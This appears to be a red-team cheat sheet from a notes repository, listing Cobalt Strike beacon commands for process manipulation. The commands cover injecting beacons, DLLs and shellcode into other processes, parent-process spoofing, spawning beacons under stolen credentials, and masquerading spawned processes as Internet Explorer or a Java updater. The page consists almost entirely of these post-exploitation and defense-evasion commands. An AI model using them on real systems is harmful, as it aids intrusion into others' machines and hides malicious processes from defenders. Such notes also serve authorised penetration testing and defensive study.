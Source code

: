 # 06 - Process Manipulation

Search Tag(s): #command-and-control #post-exploitation #defense-evasion #cobalt-strike

## 6.1 - Inject Process

Inject to spawn beacon session.

```
beacon> inject <pid> <architecture> <listener>
```

Run powershell through another process.

```
beacon> psinject <pid> <arch> <cmdlet> [args]
```

Inject DLL file in another process.

```
beacon> dllload <pid> c:\path\to\remove\shell.dll
```

## 6.2 - Inject Shellcode

Inject shellcode.

```
beacon> shinject <pid> /path/to/shellcode.bin
```

Spawn a new process and inject shellcode.

```
beacon> shspawn x64
```

Spawn shellcode and tunnel.

```
beacon> spunnel <pid> /path/to/shellcode.bin
```

## 6.3 - Spoof Process

Spoof a parent process that is ready to spawn a new child process.

```
beacon> ppid <ppid>
```

## 6.4 - Spawn Beacon Session

Spawn new beacon process with under different user credentials as provided.

```
beacon> spawnas <domain_name>\<username> <password>
```

Specify a path of the new executable program to inject beacon shellcode other than specified in the malleable c2 profile. By default it injects `rundll32.exe` when executing `spawn`.

```
beacon> spawnto <arch> <path> <args>

beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe

beacon> spawnto x86 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe
```

Spawn new beacon process.

```
beacon> spawn <arch> <listener>
```

---
## References

* [Cobalt Strike Spawn Tunnel](https://rastamouse.me/cobalt-strike-spawn-tunnel/)